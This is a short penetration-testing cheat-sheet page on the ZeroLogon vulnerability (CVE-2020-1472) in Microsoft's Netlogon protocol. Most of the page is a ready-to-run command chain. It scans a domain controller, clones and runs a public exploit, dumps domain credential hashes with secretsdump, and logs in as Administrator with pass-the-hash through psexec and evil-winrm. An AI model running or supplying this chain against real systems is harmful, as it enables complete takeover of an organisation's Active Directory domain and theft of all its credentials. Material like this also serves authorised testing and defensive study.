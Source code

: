# ZeroLogon - CVE-2020-1472

> Zero Logon exploits a feature of MS-NRPC (Microsoft NetLogon Remote Protocol), a critical authentication component of Active Directory that handles authentication of user and machine accounts. This attack is made possible by a bad implementation of the cryptography.
>
> * Release Date: Sep, 2020&#x20;
> * Impact: Elevation of Privilege&#x20;
> * CVSS score: 10

## Scan | Exploit

```bash
# scan
cme smb $ip -u $user -p $password -M zerologon

# exploit
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472/
python3 cve-2020-1472-exploit.py $dc_netbios_name $dc_ip

secretsdump.py -just-dc -no-pass $dc_netbios_name\$@$dc_ip
# extract administrator hash

# connect
psexec.py Administrator:@$dc_ip -hashes $hash_admin
evil-winrm -i $dc_ip -u Administrator -H $NTLM_hash
```
